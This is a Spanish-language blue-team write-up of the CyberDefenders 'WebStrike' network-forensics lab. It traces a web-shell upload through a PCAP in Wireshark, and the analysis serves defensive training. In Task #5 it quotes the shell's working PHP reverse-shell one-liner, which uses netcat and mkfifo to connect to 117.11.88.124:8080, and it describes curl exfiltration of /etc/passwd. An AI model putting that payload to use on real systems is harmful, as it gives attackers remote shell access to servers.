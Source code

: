 ```yaml
---
title: WebStrike - CyberDefenders
published: 2025-02-16
description: 'En este laboratorio, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.'
image: '../../../assets/CyberDefenders/WebStrike/webstrike-banner.webp'
tags: [CyberDefenders, BlueTeam, SOC]
category: 'WriteUp'
draft: false 
---
```


En este laboratorio, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.

~~~
Platform: CyberDefenders
Level: Easy
Type: SOC, Network Forensics
~~~

### Lab Scenario

> Se identificó un archivo sospechoso en el servidor web de la empresa, lo que generó alertas dentro de la intranet. El equipo de Desarrollo marcó la anomalía, sospechando de una posible actividad maliciosa. Para abordar el problema, el equipo de redes capturó el tráfico de red crítico y preparó un archivo PCAP para su revisión. Tu tarea es analizar el archivo PCAP proporcionado para descubrir cómo apareció el archivo y determinar el alcance de cualquier actividad no autorizada.

### Key Information

- Un archivo **`PCAP (Packet Capture)`** es un archivo utilizado para almacenar datos de red capturados, es decir, las comunicaciones o paquetes de datos que viajan a través de una red. Debido a que un archivo PCAP puede contener información sensible, como credenciales o datos personales, su manejo debe ser adecuado para evitar fugas de información.

- La **`data exfiltration`** es el proceso de obtener o transferir datos de un sistema o red sin autorización. Este término se utiliza principalmente en el contexto de la ciberseguridad, donde se refiere al robo o fuga de información sensible, como datos personales, secretos comerciales, información financiera o cualquier otro tipo de dato valioso.

### Analysis

**`Wireshark`** es una de las herramientas más populares y utilizadas para el análisis y captura de paquetes de red. Es un **analizador de protocolos de red** de código abierto que permite a los usuarios capturar, inspeccionar y analizar el tráfico que pasa por una red.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-1.png)

#### Task #1

> **Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?**

La **geolocalización IP** es el proceso mediante el cual se determina la ubicación física asociada a una dirección IP, utilizando datos como el país, la ciudad, la latitud y el proveedor de servicios de internet (ISP). En el ámbito de la ciberseguridad, esta herramienta resulta esencial para identificar el origen de actividades en la red, como ataques o accesos no autorizados, y es fundamental para implementar medidas de geo-bloqueo y ajustar estrategias contra amenazas cibernéticas.

Al abrir el archivo `PCAP` con **Wireshark**, observamos que solo hay dos direcciones IP involucradas:

- **`117.11.88.124`**
- **`24.49.63.79`**

Al ordenar los paquetes por tiempo, descubrimos que la dirección IP **`117.11.88.124`** estableció conexión a la dirección **`24.49.63.79`**, lo que sugiere que esta dirección podría pertenecer al atacante. Utilizando la herramienta **[https://www.iplocation.net/](https://www.iplocation.net/)**, podemos obtener la ciudad de origen del ataque.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-2.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-3.png)

Por lo visto, la ciudad de origen del ataque es **Tiajin, China** y la victima es procedente de **Maryland, United States**. Por lo que efectivamente, la dirección IP del atacante es **`117.11.88.124`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-1.png)

#### Task #2

> **Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's User-Agent?**

Un **User-Agent (UA)** es una cadena de texto que se incluye en los encabezados HTTP de una solicitud de red, enviada por un cliente (generalmente un navegador web, pero también puede ser una aplicación u otro tipo de cliente) al servidor. Esta cadena proporciona información detallada sobre el software que realiza la solicitud. Buscamos los encabezados **`HTTP`**:

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-4.png)

La cadena **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`**. indica que la solicitud proviene de un navegador **Firefox** versión **115.0**, que se está ejecutando en un sistema **Linux** de 64 bits. El sistema utiliza **X11**, el sistema de ventanas estándar en entornos Unix y Linux. El motor de renderizado utilizado es **Gecko** versión **109.0**, y la fecha de compilación de ese motor es **20100101**. Además, el valor "Mozilla/5.0" es un identificador genérico utilizado para asegurar la compatibilidad con servidores antiguos.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-2.png)

#### Task #3

> **We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

Una **web shell** es un script malicioso que se carga en un servidor web para permitir a un atacante ejecutar comandos arbitrarios en el servidor de forma remota. Las **web shells** suelen aprovechar vulnerabilidades en aplicaciones web, como malas configuraciones o fallos en la seguridad de scripts o plataformas (por ejemplo, PHP, ASP, etc.). Una vez instalada, la web shell permite al atacante realizar una variedad de acciones. Básicamente, actúa como una puerta trasera que da acceso al atacante al sistema comprometido, lo que le permite controlar y manipular el servidor sin la autorización del administrador. Los atacantes suelen cargar la web shell mediante formularios de carga de archivos o enviando peticiones con scripts maliciosos. 

En este contexto, el atacante suele utilizar el método **POST** para cargar un archivo malicioso (como un script PHP, ASP, JSP, etc.) en el servidor web. Por lo que al utilizar el filtro **`ip.src == 117.11.88.124 && http.request.method == "POST"`**, podemos concentrarnos en las solicitudes **POST** que provienen de una dirección IP específica, lo cual nos ayuda a identificar posibles cargas de archivos maliciosos o comandos ejecutados desde esa IP hacia el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-5.png)

Luego de aplicar el filtro en Wireshark para filtrar por el método **POST**, notamos que se realizó una petición HTTP con la siguiente información:

**POST /reviews/upload.php HTTP/1.1**
- **Content-Type**: `application/x-php`
- **Filename**: `"image.jpg.php"`

Este detalle es altamente sospechoso, ya que aunque el archivo parece ser una imagen (por la extensión **.jpg**), el nombre del archivo termina en **.php**, lo que sugiere que el atacante está intentando subir un archivo PHP malicioso disfrazado de imagen.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-3.png)

#### Task #4

> **Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

Para identificar la ruta en la que se almacena el archivo cargado, en este caso, se utiliza el filtro **`ip.src == 117.11.88.124 && http.request.uri contains "image.jpg.php"`**. Este filtro permite aislar todas las solicitudes **HTTP** relacionadas con la ruta **`image.jpg.php`**, lo cual es crucial para detectar **intentos de ejecución o acceso** al archivo malicioso cargado. Dicho filtro resulta especialmente útil para rastrear los esfuerzos del atacante por interactuar con el archivo y ejecutar código malicioso en el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-6.png)

Se observa que la **web shell** se almacena en la ruta **`/reviews/uploads/`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-4.png)

#### Task #5 

> **Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

Para identificar el puerto abierto en la máquina atacante, es necesario examinar la web shell. Al revisar el payload, podemos observar que el puerto utilizado es el **8080**, ya que en el código de la web shell se encuentra la siguiente instrucción:

**`<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 nc 117.11.88.124 8080 >/tmp/f"); ?>`**

Este comando utiliza **Netcat** (`nc`) para establecer una conexión saliente hacia la IP **117.11.88.124** a través del puerto **8080**, lo que confirma que este puerto es el objetivo de la comunicación no autorizada.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-7.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-5.png)

#### Task #6

> **Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

Se puede observar que el atacante está utilizando **CURL** para transferir el archivo **`/etc/passwd`** desde la máquina comprometida hacia su propia máquina, estableciendo la comunicación a través del puerto **443**. 

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-8.png)

El archivo **`passwd`** contiene información crítica sobre las cuentas de usuario del sistema, lo que indica que el atacante está intentando exfiltrar datos sensibles.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-6.png)

**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/149/)**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-cyberdefenders.png)